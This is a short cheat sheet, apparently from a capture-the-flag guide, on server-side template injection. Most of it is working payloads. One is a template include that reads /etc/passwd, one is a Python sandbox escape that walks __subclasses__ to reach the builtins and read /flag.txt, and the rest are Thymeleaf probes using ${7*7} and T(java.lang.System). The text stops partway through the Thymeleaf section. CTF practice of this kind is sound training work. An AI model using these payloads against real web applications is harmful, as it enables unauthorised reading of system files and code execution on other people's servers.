 ### Template engine bypass:

```
{% raw %}
{% include '/etc/passwd' %}
{% end %}
```

### Context escaping:

```
{% for x in [].__class__.__base__.__subclasses__() %}
    {% if 'warning' in x.__name__ %}
        {{ x.__init__.__globals__['__builtins__'].open('/flag.txt').read() }}
    {% end %}
{% end %}
```

# SSTI for Thymeleaf (Java) Templates

Thymeleaf is a modern server-side Java template engine for web applications. Here's how to perform Server-Side Template Injection (SSTI) on Thymeleaf in a CTF context:

## Basic Testing

Test for vulnerability with:

```
${7*7}
*{7*7}
```

If this returns `49`, you have confirmed the vulnerability.

## Expression Types in Thymeleaf

Thymeleaf has multiple expression syntaxes:

- `${...}` - Variable expressions (OGNL/SpringEL)
- `*{...}` - Selection expressions
- `@{...}` - Link expressions
- `#{}` - Message expressions
- `~{}` - Fragment expressions

## Exploitation Techniques

### Basic Expression Evaluation

```
${7*7}
${T(java.lang.System).getProperty('user.dir')}
```
